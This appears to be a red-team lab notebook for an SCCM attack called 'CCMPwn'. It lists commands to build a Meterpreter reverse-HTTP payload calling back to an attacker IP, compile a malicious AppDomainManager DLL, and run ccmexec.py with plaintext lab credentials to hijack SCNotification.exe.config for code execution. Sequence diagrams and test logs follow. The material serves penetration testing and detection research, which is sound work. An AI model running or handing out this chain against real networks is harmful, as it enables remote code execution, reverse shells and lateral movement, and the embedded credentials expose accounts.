

# Process
- Generate C2 framework payload
  - sudo msfvenom -p windows/x64/meterpreter/reverse_http -f raw -o meterpeter.bin LHOST=10.9.253.6 LPORT=8080
- Encode to 64 bit payload
  - base64 meterpeter.bin > meterpeterb64
- Place encoded payload in AppDomainManager.cs POC
- Compile 'meterpeter.dll'
  - C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /target:library /out:meterpeter.dll AppDomainManager.cs
- Use meterpeter.config
  - Ensure `<appDomainManagerAssembly value="meterpeter">`
- Run status check
  - python3 ccmexec.py -debug sccmlab.local/sccmclientpush:cieph3Iehe7K@10.10.0.152 status
- Run exploit
  - python3 ccmexec.py -debug sccmlab.local/sccmclientpush:cieph3Iehe7K@10.10.0.152 exec -config templates/meterpeter.config -dll meterpeter.dll

## Troubleshooting
- Victim connectivity test
  - Test-NetConnection -Computername 10.9.253.6 -Port 8080

## Diagrams
### CCMPwn

#### Mermaid
```mermaid
sequenceDiagram

    participant Attacker

    participant Victim

    participant SMS Server

    %% ->> SMB Connection
    %% -->> RPC Connection
    %% -> Notes

    %% Code
    Attacker->Attacker: Code Start
    Attacker-->>Victim: ncacn_np:%IP%\pipe\svcctl
    Attacker-->Victim: Kerberos or NTLM Auth
    Victim->Victim: RPC 'lpScHandle' for 'CcmExec'
    Attacker-->>Victim: Stop CC service
    Attacker->>Victim: Read/Download C$\Windows\CCM\SCNotification.exe.config
    Victim->>Attacker: 
    Attacker->>Victim: Overwrite malicious config
    Attacker->>Victim: Put malicious .dll 
    Attacker->Victim: Edit .dll permissions
    Attacker-->>Victim: Start CCM Service
    Victim-->Victim: SCNotification.exe Read/Execute SCNotification.exe.config **CONFUSED**
    Victim-->>Attacker: Payload executes
    Victim-->>SMS Server: DNS Query Site Server
```
### SharpSCCM vs CCMPwn

#### Mermaid
```mermaid
flowchart TB
    subgraph CCMPwn
        A[Attacker] -->|SMB Put File| V[Victim]
        V -->|Executes policy/script| E[Exploit]
    end

    subgraph SharpSCCM
        A2[Attacker] -->|WMI Policy Change to add script to device| SS[Site Server]
        SS -->|Communicates policy to device| V2[Victim]
        V2 -->|Executes policy/script| E2[Exploit]
    end
```

## Notes
sccmclientpush\ cieph3Iehe7K
Test1 (Dll w/no AppDomain, Fail)
09:09: Ran Exec
09:10:12 Start CCMExec Service
09:10:42 Cleanup SCNotification.exe.config

Test2
03:51:43 start 
3:52:06 start ccm
3:52:35scn run config

Test3 (Testing for callbacks/Sysmon logs)
04:05:18 start

Accounts:
sccmlab.local\Administrator

sccmlab.local\john
